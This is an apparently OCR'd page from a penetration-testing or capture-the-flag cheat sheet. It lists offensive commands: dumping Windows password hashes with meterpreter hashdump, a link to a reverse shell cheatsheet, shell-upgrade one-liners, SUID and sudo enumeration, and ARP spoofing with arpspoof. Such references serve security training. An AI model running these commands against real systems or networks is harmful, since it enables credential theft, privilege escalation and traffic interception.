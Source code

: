 <b>Dumping the Password Database</b>

For example, you can dump the passwords database and save it for an offline cracking session. The hashdump module dumps the password database of a Windows machine

`meterpreter > hashdump`

## <u>Collection of Reverse shell [Commands]</u>

`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md`

# <b><u>Interactive Shell</u></b>

## <u>python/python3 Interactive Shell</u>

Check if `python/python3` is available in system

`which python`
`which python3`

`python -c 'import pty;pty.spawn("/bin/bash")'`

## <u>Bash Interactive Shell</u>

`bash -i`

`SHELL=/bin/bash script -q /dev/null`


# <b><u>Find Commands</b></u>

## <u>Find files</u>

`find / -type f -name "*flag.txt" 2>/dev/null`

## <u>Find SUID Files</u>

`find / -user root -perm -4000 -print 2>/dev/null`

`sudo -l`

# <b><u>ARP Spoofing</b></u>

```
## Dsniff Arpspoof

Before running the tool, we have to enable the Linux Kernal IP Forwarding, a feature that transforms a Linux box into a router.

By enabling IP forwarding, you tell your machine to forward the packets you intercept to the real destination host.

# Command to enable the ip forward feature

echo 1 > /proc/sys/net/ipv4/ip_forward

We can then run arpspoof

# Command to use arpspoof

arpspoof -I <interface> -t <target> -r <host>

```